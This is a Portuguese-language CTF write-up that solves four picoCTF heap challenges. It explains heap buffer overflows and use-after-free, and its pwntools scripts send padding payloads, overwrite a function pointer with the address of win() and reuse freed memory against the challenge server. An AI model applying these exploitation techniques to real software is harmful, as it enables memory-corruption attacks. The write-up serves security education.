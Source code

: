 ## Autor: Gebra  
  
# Heap:

A Heap é uma área da memória dinâmica(RAM) usada por programas para alocar e desalocar dados de forma flexível durante a
execução do código. E vamos explorar as seguintes vulnerabilidades: 

1.Buffer Overflow: Ultrapassar o tamanho alocado de memória em uma variável para alterar memória adjacente. 

2.UAF(Use After Free): Programa Acessa bloco de memória já liberado, permitindo a modificação dos dados.

## Exercício 1:
### Resolução via terminal:
Esse exercício foi projetado para ser de estágio inicial, por isso a Heap pode ser visualizada dentro do próprio código.
```python
    printf("Heap State:\n");
    printf("+-------------+----------------+\n");
    printf("[*] Address   ->   Heap Data   \n");
    printf("+-------------+----------------+\n");
    printf("[*]   %p  ->   %s\n", input_data, input_data);
    printf("+-------------+----------------+\n");
    printf("[*]   %p  ->   %s\n", safe_var, safe_var);
    printf("+-------------+----------------+\n");
```

Executando o código, é possivel descobrir os endereços de cada variável na heap.

![image](https://github.com/user-attachments/assets/655c496d-9e70-4afd-9f06-bb07769e6609)


Com esses dados, podemos verificar as distância entre os endereços e conseguir o offset dos dois, assim descobrimos que é 
32 bytes e que precisamos fazer um estouro desse tamanho.
Digitando esse comando no cmd, você receba a string de 33 caracteres pronta para teste.
    
    python3 -c 'print("a"*33)'

Colocando essa string como input do buffer você irá sobrescrever "pico" por "a"*32 e "bico" por "a". 
![image](https://github.com/user-attachments/assets/0c9ee24a-26aa-453a-9832-a249eb25d012)


Assim você consegue a flag ao digitar 4.

### Resolução via pwntools:
![image](https://github.com/user-attachments/assets/a63b90a8-f8c8-4770-8b1f-8519f5ac2077)


Criamos p como process para teste e depois partimos para o remote onde conseguiremos a flag verdadeira.
```python
    p = remote("tethys.picoctf.net", 55850)
```
Depois Criamos um payload para enviar para o código.
```python
    payload = "a" * 33
```
Depois enviamos o payload para o código e recebemos a flag.
```python
    p.recvuntil("choice:")

    p.sendline("2")
    p.sendline(payload)
    
    p.recvuntil("choice:")
    p.sendline("4")

    print(p.recvall())
```


## Exercício 2:
Para o restante dos exercícios vou explicar apenas pelo pwntools para acostumarmos com essa ferramenta.

Dando uma olhada no código do exercício `heap 1` a única diferença para o exercício anterior é que temos que modificar o valor de safe_var para um valor específico (`pico`), para isso devemos sobrescrever os 32bytes de offset e no 33º byte começamos a inserir a string `pico`.

```python
payload = "a"*32 + "pico"
```
Dessa forma nosso payload será composto pelos caracteres de preenchimento, "a" no caso, e "pico" para preencher a `safe_var`.


## Exercício 3:
Nesse exercício observamos que a função `win()` não é chamada em nenhum momento no decorrer do código, mas vamos observar um pouco a função `check_win()`.

```python
void check_win() { ((void (*)())*(int*)x)(); }
```
Essa função chama uma função voide através do endereço de memória fornecido em `x`, assim, se alterarmos o valor de x para o endereço de `win()` conseguimos chamar essa função e ganhar a flag do desafio.

Podemos utilizar a ferramenta `objdump` junto com `grep` no terminal para buscar onde está localizada a função que queremos.

![image](https://github.com/user-attachments/assets/94270fea-cb11-4506-87ec-7a60f178191f)

`-d` faz o disassemble do arquivo selecionado e grep filtra os dados encontrados, mostrando somente os que contém win no nome. Agora precisamos preparar nosso payload.

```python
junk = b"a"*32
win_adress = p32(0x04011a0)
payload = junk + win_adress
```

Usamos p32 para transformar o endereço de memória obtido no formato `little-endian`, sua representação em 32 bits. Desse modo já conseguimos obter nossa flag enviando esse payload para o código.


## Exercício 4:
Último exercício da série, em `heap 3` observamos que precisamos modificar o valor de uma struct chamada `object` que é declarada com o nome de x. 

```python
typedef struct {
  char a[10];
  char b[10];
  char c[10];
  char flag[5];
} object;
```

Mais especificamente o campo flag da struct.

```python
if(!strcmp(x->flag, "pico"))
```

Observando o que o código nos disponibiliza, há algumas novas opções, Allocate object e Free x são as principais. 

![image](https://github.com/user-attachments/assets/5f18612b-9e2c-4045-9ba3-44f79de11ebd)

Selecionando a opção 2 a aplicação nos pede o tamanho do objeto para alocar. Diferente dos exercícios anteriores o foco não é calcular o offset para chegar à variável, nesse exercício devemos perceber que mesmo dando free(x) ainda é feita a verificação de `x->flag`, portanto precisamos alocar um objeto de mesmo tamanho que nossa struct `object` para tentar ocupar o mesmo espaço de memória ocupado por x antes de ser desalocado.

```python
from pwn import *

#p = process("chall")

p = remote("tethys.picoctf.net", 53444)

payload = "a" * 30 + "pico"

p.recvuntil("choice:")
p.sendline("5")

p.recvuntil("choice:")
p.sendline("2")

p.recvuntil("allocation:")
p.sendline("35")
p.sendline(payload)

p.recvuntil("choice:")
p.sendline("4")

print(p.recvall())
```

O script em si é parecido com o de `heap1` mas precisamos entender o que foi comentado anteriormente para explorar o UAF.
